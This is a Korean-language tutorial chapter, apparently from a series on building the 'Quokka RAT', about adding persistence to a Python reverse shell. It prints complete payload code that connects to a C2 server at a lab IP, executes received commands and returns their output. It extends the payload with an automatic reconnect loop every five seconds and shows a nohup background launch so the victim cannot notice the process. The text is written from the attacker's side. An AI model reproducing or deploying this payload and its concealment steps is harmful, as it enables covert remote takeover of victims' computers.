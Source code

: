 # Quokka RAT : 지속성(Persistance)

<aside>
⚠️ author : 전재호(agamtt) 2024-03-17

</aside>

# 지속성(Persistance)

우리가 만든 악성코드는 희생자의 python 프로그램이 종료되면 해커가 다시 접근할 방법이 없습니다.
따라서 해커는 여러가지 방법으로 언제든 악성코드를 실행할 수 있도록 방법을 취합니다.

시작프로그램에 등록해서 컴퓨터가 꺼졌다 켜질때마다 악성코드가 실행되게 하는 등의 다양한 방법으로 언제든 접속할 수 있도록 합니다.

이러한 “악성 행위가 끊기지 않도록 방지하는” 해킹기술을 Persistance 라고 부릅니다.

# 폴링(Polling)

폴링은 컴퓨터공학에서, “상태를 주기적으로 검사하는 것”을 말합니다.

우리의 악성코드는, 서버에서 소켓을 Ctrl+C 로 종료하면 악성코드도 종료되니, 계속 해커가 신경써야하니 불편합니다.

Python 반복문과 Try Except 를 이용하여, 서버가 연결을 끊어도, 계속 연결을 요청하도록 Polling 기능을 추가해봅시다.

우리의 페이로드는 아래와 같습니다.

```python
import socket
import subprocess
h="172.17.0.3"
p=8282
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((h,p))

while True:
    c=s.recv(1024).decode()
    output=subprocess.run(c,shell=True,stdout=subprocess.PIPE,text=True)
    result=output.stdout
    if(result==''):
        s.send("suc".encode())
    else:
        s.send(result.encode())
```

이것을 이렇게 수정합니다.

- 만일 서버의 연결이 끊기면, 소켓이 파괴되면서 오류를 발생시킵니다.
    - try except 를 사용하면 오류가 발생했을 때, python 을 종료시키는 것이 아니라 오류를 알아서 처리하도록 할 수 있습니다.
    - except 에 time.sleep(5) 를 넣어, 프로그램을 종료시키지말고 5초 대기하도록 합니다.
    - 5초가 지나면 다시 s.connect() 를 시도합니다.

```bash
import socket
import subprocess
import time
h="172.17.0.3"
p=8282

while True:
    try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((h,p))
        while True:
            c=s.recv(1024).decode()
            output=subprocess.run(c,shell=True,stdout=subprocess.PIPE,text=True)
            result=output.stdout
            if(result==''):
                s.send("suc".encode())
            else:
                s.send(result.encode())
    except Exception as e:
        time.sleep(5)
```

이제 해커가 C2 서버에서 연결을 끊어도, 악성코드는 5초에 한번씩 해커의 C2 서버를 찾으며 종료되지 않고 생존신호를 보냅니다.

![Untitled](Untitled%20603.png)

그러나 여전히 john 이 Ctrl + C 등으로 파이썬 악성프로그램을 종료시킬 수 있습니다. 어쩌면 좋을까요?

(john 이 악성 프로그램을 발견하고 꺼버리면, C2 서버의 연결도 끊긴다.)

![Untitled](Untitled%20604.png)

이럴때는 악성프로그램이 실행중이라는 사실을 숨겨야합니다.

거기엔 다양한 방법이 있습니다. (다른 프로그램에 숨는다던지 등)

제일 쉬운 방법인 백그라운드 실행 방법을 알아봅시다.

# 리눅스 백그라운드 실행

리눅스에는 백그라운드 실행 기능이 있습니다.

- & 를 명령어 맨 뒤에 붙이면 그 명령어는 백그라운드에서 실행됩니다.
- nohup 을 맨 앞에 붙이면, 유저가 로그아웃해도 실행됩니다.

```bash
nohup python3 payload.py &
```

이제 john 은 터미널에서 악성코드가 실행중인지 전혀 알 수가 없습니다. john 이 모르는 사이에 hacker는 자유롭게 john의 컴퓨터를 사용하고, 원할 때 접속합니다.

![Untitled](Untitled%20605.png)

이렇게 백그라운드로 실행한 프로그램은 ps 명령어로 확인한 후, pid 를 입력해서 수동으로 종료시켜야합니다. 전보다 우리의 악성코드가 더 안전해졌습니다.

 

![Untitled](Untitled%20606.png)

![Untitled](Untitled%20607.png)

계속
